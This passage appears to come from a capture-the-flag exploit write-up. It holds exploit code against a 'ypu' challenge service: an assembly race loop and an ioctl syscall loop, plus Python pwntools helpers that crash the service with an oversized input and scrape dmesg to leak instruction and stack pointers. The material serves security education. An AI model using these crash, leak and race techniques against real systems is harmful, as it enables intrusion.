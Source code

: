 ```python
mov cl, {1}
mov dl, {2}

race_loop:
mov byte ptr [rbx], cl
mov byte ptr [rbx], dl
jmp race_loop

parent:

ioctl_loop:
mov rdi, 4
mov rsi, 1337
mov rax, 16
syscall
jmp ioctl_loop

saved_mmap_addr:
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
'''

def load_program(p, program_index, yancode):
    buf = b'load_program '
    buf += str(program_index).encode() + b' '
    p.send(buf)
    p.send(yancode)

def init_ypu(p, ypu_index, program_index, batch=1):
    buf = b'init_ypu '
    buf += str(ypu_index).encode() + b' '
    buf += str(program_index).encode() + b' '
    buf *= batch
    p.send(buf)

def run_ypu(p, ypu_index, batch=1):
    buf = b'run_ypu '
    buf += str(ypu_index).encode() + b' '
    buf *= batch
    p.send(buf)

def quit(p):
    buf = b'quit '
    p.send(buf)

def get_leaks():
    r0 = remote('localhost', 1337)
    crash_program = 15
    crashing_yancode = b'A' * MAX_YANCODE_SIZE
    load_program(r0, crash_program, crashing_yancode)
    quit(r0)

    dmesg = process('dmesg | grep traps | tail -n 1', shell=True)
    dmesg.recvuntil(b'ip:')
    ip_leak = int(dmesg.recvuntil(b' '), 16)
    dmesg.recvuntil(b'sp:')
    sp_leak = int(dmesg.recvuntil(b' '), 16)
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html